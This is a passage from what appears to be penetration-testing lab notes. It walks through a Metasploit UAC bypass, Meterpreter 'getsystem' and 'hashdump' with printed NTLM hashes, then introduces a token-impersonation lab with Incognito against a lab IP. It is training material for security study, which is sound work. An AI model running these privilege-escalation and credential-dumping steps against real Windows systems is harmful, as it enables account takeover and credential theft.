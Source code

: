 ![Metasploit - exploit/windows/local/bypassuac_injection](.gitbook/assets/image-20230419201340464.png)

- Now the **`getsystem`** command should work

```bash
getsystem
```

![](.gitbook/assets/image-20230419201434045.png)

### Hashes Dump

```bash
hashdump
```

```bash
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```



<details><summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary></details>



------

## Lab 3 - Token Impersonation

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> - Target IP: `10.2.16.163`
> - Check the [🔬Access Token lab here](../1-system-attack/windows-attacks/accesstoken.md) that already covered the Incognito tool
>
> - Metasploit **Token Impersonation with Incognito** inbuilt Meterpreter module
> - [Access Token Impersonation - Description](../1-system-attack/windows-attacks.md#access-token-impersonation)
